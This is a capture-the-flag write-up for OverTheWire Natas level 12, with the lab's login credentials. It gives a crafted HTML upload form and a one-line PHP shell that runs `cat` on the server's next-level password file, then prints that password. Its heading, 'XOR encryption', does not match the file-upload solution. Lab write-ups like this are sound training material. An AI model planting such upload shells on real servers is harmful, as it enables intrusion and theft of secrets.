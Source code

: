 # [Level 11 to 12](https://overthewire.org/wargames/natas/natas12.html) - XOR encryption

- Login
```
URL: http://natas12.natas.labs.overthewire.org
Username: natas12
Password: yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB
```
- Exercise:
![image](https://github.com/user-attachments/assets/bc198088-c94a-4f8c-9bc0-617bda87fc74)
![image](https://github.com/user-attachments/assets/b98e4e20-afb9-40de-93e8-8192a2cad313)

- Background:
- Solution:
  - Save the following as file `natas12_form.html`: 
  ```html
  <html>
  <form enctype="multipart/form-data" action="http://natas12.natas.labs.overthewire.org/index.php" method="POST">
  <input type="hidden" name="MAX_FILE_SIZE" value="1000" />
  <input type="hidden" name="filename" value="natas12_getpass.php" />
  Choose a JPEG to upload (max 1KB):<br/>
  <input name="uploadedfile" type="file" /><br />
  <input type="submit" value="Upload File" />
  </form>
  </body>
  </html>
  ```
  - Save the following as file `natas12_getpass.php` and load it into `natas12_form.html`:
  ```php
  <?php
  system("cat /etc/natas_webpass/natas13")
  ?>
  ```
  ![image](https://github.com/user-attachments/assets/8bf24710-50dd-4eff-bf94-b84b81aa890d)
  ![image](https://github.com/user-attachments/assets/40f6d645-2567-4c56-86a2-76a2f2465d93)
  ![image](https://github.com/user-attachments/assets/f8d0abd9-b252-44be-b4b9-aac9f27389a0)

- Password: `trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC`
